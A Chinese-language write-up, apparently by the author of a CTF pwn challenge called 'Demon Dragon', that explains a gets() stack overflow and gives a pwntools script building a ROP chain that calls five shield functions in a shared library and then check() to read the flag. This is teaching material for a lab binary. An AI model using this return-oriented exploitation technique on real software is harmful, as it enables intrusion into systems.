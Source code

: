 # Demon Dragon

题目本身不难，略微有些工作量。

首先是逆向程序，一开始会调用6个函数，这6个函数来自题目同时给出的`libmagic.so`，目的是为了让这6个函数被动态链接进来，可以直接忽略。随后，Demon Dragon会使用5种元素攻击你，元素的顺序是随机的。接下来需要输入使用的技能，这里存在简单的`gets`栈溢出。但是并不清楚溢出之后要干什么。

然后我们逆向`libmagic.so`，这个文件保留了符号表，因此可以看到刚才的6个函数，分别是5种元素护盾和一个`check`函数。观察后可以发现每种元素护盾都可以克制另一种元素（克制关系在题目描述里），当5种攻击都被克制后就可以通过`check`来拿到flag。可以看到`check`里存在`system("cat flag");`，如果这个函数不是动态链接的，选手可以直接栈溢出跳到这里。此外，5种护盾如果没有符号表则逆向难度较大，因此我把它们和`check`都编译成了动态链接库。

最后来看护盾如何调用：所有护盾都只需要函数参数等于特定值即可成功调用，区别仅仅是特定值与参数个数不同。那么如何控制参数呢？这是64位程序，我们需要控制前三个参数寄存器`rdi,rsi,rdx`。前两者在偏移过的`__lib_csu_init`中可以找到，比较通用：
```
pop rdi; ret
pop rsi; pop r15; ret
```
而`rdx`不太好控制，于是我在程序中直接硬编码了一个gadget：
```
pop rdi; pop rsi; pop rdx; ret
```

这样就可以构造rop链了，按元素克制关系调用5种护盾，最后返回到`check`函数getflag。不要忘了`check`函数也需要参数，这个参数可以参考第一次调用`check`时候的参数，位于`0x6020b0`。
```py
ru('with ')
elem = [ru(', ') for i in range(4)]
elem.append(ru('!\n'))

pop_rdi = 0x400e43 # 1
pop_rsi = 0x400e41 # 2
pop3 = 0x400c3a # 1,2,3

strategy = {
	'gold': flat(pop_rdi,0xdeadbabe,pop_rsi,0xdeadfa11,0,elf.plt['fire_shield']),
	'wood': flat(pop_rdi,0xdeadbeef,elf.plt['gold_shield']),
	'water': flat(pop_rdi,0xfee1dead,elf.plt['earth_shield']),
	'fire': flat(pop3,0xbaaaaaad,0x8badf00d,0xd15ea5e,elf.plt['water_shield']),
	'earth': flat(pop_rdi,0xcafebabe,pop_rsi,0xdeadbaad,0,elf.plt['wood_shield'])
}

payload = 'a'*0x48
for attack in elem:
	payload += strategy[attack]

pos = 0x6020b0
payload += flat(pop_rdi,pos,elf.plt['check'])
sla('Skill > ',payload)
```

注意链接时`libmagic.so`的目录，我放在和源程序同一目录下因此使用选项`-L.`。同时`/usr/lib/`下也需要有`libmagic.so`。